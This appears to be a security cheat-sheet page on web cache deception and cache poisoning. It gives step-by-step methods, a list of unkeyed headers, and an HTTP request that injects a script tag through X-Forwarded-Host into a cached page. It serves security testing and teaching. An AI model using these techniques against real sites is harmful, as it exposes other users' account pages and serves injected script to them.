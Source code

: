 # Web Cache Deception Attack

## Tools

* [Param Miner - PortSwigger](https://github.com/PortSwigger/param-miner)
    > This extension identifies hidden, unlinked parameters. It's particularly useful for finding web cache poisoning vulnerabilities.

## Exploit

1. Browser requests `http://www.example.com/home.php/non-existent.css`.
2. Server returns the content of `http://www.example.com/home.php`, most probably with HTTP caching headers that instruct to not cache this page.
3. The response goes through the proxy.
4. The proxy identifies that the file has a css extension.
5. Under the cache directory, the proxy creates a directory named home.php, and caches the imposter "CSS" file (non-existent.css) inside.

## Methodology of the attack - example

1. Normal browsing, visit home : `https://www.example.com/myaccount/home/`
2. Open the malicious link : `https://www.example.com/myaccount/home/malicious.css`
3. The page is displayed as /home and the cache is saving the page
4. Open a private tab with the previous URL : `https://www.paypal.com/myaccount/home/malicous.css`
5. The content of the cache is displayed

Video of the attack by Omer Gil - Web Cache Deception Attack in PayPal Home Page
[![DEMO](https://i.vimeocdn.com/video/674856618.jpg)](https://vimeo.com/249130093)

## Methodology 2

1. Find an unkeyed input for a Cache Poisoning
    ```js
    Values: User-Agent
    Values: Cookie
    Header: X-Forwarded-Host
    Header: X-Host
    Header: X-Forwarded-Server
    Header: X-Forwarded-Scheme (header; also in combination with X-Forwarded-Host)
    Header: X-Original-URL (Symfony)
    Header: X-Rewrite-URL (Symfony)
    ```
2. Cache poisonning attack - Example for `X-Forwarded-Host` unkeyed input (remember to use a buster to only cache this webpage instead of the main page of the website)
    ```js
    GET /test?buster=123 HTTP/1.1
    Host: target.com
    X-Forwarded-Host: test"><script>alert(1)</script>

    HTTP/1.1 200 OK
    Cache-Control: public, no-cache
    [..]
    <meta property="og:image" content="https://test"><script>alert(1)</script>">
    ```


## References

* [Web Cache Deception Attack - Omer Gil](http://omergil.blogspot.fr/2017/02/web-cache-deception-attack.html)
* [Practical Web Cache Poisoning - James Kettle @albinowax](https://portswigger.net/blog/practical-web-cache-poisoning)
* [Web Cache Entanglement: Novel Pathways to Poisoning - James Kettle @albinowax](https://portswigger.net/research/web-cache-entanglement)
* [Web Cache Deception Attack leads to user info disclosure - Kunal pandey - Feb 25](https://medium.com/@kunal94/web-cache-deception-attack-leads-to-user-info-disclosure-805318f7bb29)
* [Web cache poisoning - Web Security Academy learning materials](https://portswigger.net/web-security/web-cache-poisoning)
  - [Exploiting cache design flaws](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws)
  - [Exploiting cache implementation flaws](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws)
